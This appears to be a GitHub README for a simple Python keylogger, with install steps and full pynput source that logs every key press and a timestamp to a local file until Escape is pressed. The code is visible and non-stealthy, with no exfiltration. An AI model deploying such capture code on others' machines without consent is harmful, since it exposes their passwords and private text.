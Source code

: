 Key Logger
This Python script logs all key presses to a file named key_log.txt using the pynput library. The script runs continuously and records each key press along with a timestamp until the "Escape" key (Key.esc) is pressed to stop the logging.

Prerequisites
Python 3.x
pynput library
Installation
Clone the repository or download the script:

sh
Copy code
git clone https://github.com/yourusername/yourrepository.git
cd yourrepository
Install the required libraries:

sh
Copy code
pip install pynput
Usage
Run the script:

sh
Copy code
python key_logger.py
The script will start logging all key presses to key_log.txt file in the same directory:

The log entries will be in the format: (key) is pressed at : timestamp.
To stop the script, press the "Escape" key (Key.esc).

Script Overview
python
Copy code
from pynput.keyboard import Key, Listener
import logging

logging.basicConfig(filename="key_log.txt", level=logging.DEBUG, format='%(message)s : %(asctime)s')
print("Running....")

def while_press(key):
    KEY = f"({key}) is pressed at "
    logging.info(KEY)

def while_release(key):
    if key == Key.esc:
        return False

with Listener(on_press=while_press, on_release=while_release) as listener:
    listener.join()
Functions
while_press(key):

Logs the key press event along with the timestamp to key_log.txt.
while_release(key):

Stops the listener when the "Escape" key is pressed.
